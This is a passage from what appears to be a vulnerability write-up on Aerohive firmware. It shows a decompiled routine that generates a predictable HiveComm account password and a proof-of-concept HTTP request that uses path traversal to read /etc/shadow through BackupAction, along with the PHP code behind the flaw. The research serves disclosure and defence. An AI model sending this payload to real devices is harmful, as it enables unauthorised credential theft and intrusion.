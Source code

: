 The second is to leak the values elsewhere such as a remote file read.

Also here is a [Ghidra](https://ghidra-sre.org/) decompilation of the account password generation:

```c
    gettimeofday(&tStack60,(__timezone_ptr_t)&tStack68);
    ah_dcd_get_mac_byname(&DAT_000456ec,&local_34);
    ah_snprintf(&DAT_0006452c,0x20,"%02x%02x%02x%d",(undefined)local_30,local_34 >> 0x18,
                local_30._1_1_,tStack60.tv_usec); // Get the current microseconds
    if ((DAT_0006452c & 0xff) == 0) { // Default value set here if for whatever reason the generation fails (Most probably 'aerohive')
      DAT_0006452c = 0x6f726561;
      DAT_00064530 = 0x65766968;
                    /* WARNING: Ignoring partial resolution of indirect */
      DAT_00064534._0_1_ = 0;
    }
    iVar1 = ah_passwd_crypt("AerohiveHiveCommadmin",&DAT_0006452c,0); // Adds to the /etc/shadow file 
    if (iVar1 < 0) {
      ah_log(9,3,"capwap HiveComm crypt scp password failed.\n");
    }
```

### Remote File Read

There are at least two remote file reads! One was fortunately (unfortunately? depending on your point of view) 'patched' in later versions but still worth knowing about.  
I initially had older firmware, so found a working file read in order to take advantage of the poorly generated passwords shown in section X.
This was patched in the later versions of the firmware. However, there was another easy file read that was found. 

### Old Firmware

The old firmware has an arbitrary file read in the `action/BackupAction.class.php5` class, which is shown in detail below. 

Proof of concept: 
```
POST /action.php5?_page=Backup&_action=get&name=bloop&debug=true HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded

mac=../../../etc/shadow%00
```

So how does this work? Get triggers the `downloadConfigFile()` function to run as shown below:

```php
public function process() {
                AhLogger::getInstance()->info("BackupAction.process called. actionName={$this->actionName}");
                if ($this->actionName == 'list') {
                        $this->listConfigFiles();
                } else if ($this->actionName == 'get') {
                        $this->downloadConfigFile();
                } else if ($this->actionName == 'check') {
                        $this->checkConfigFile();
                }
        }
```
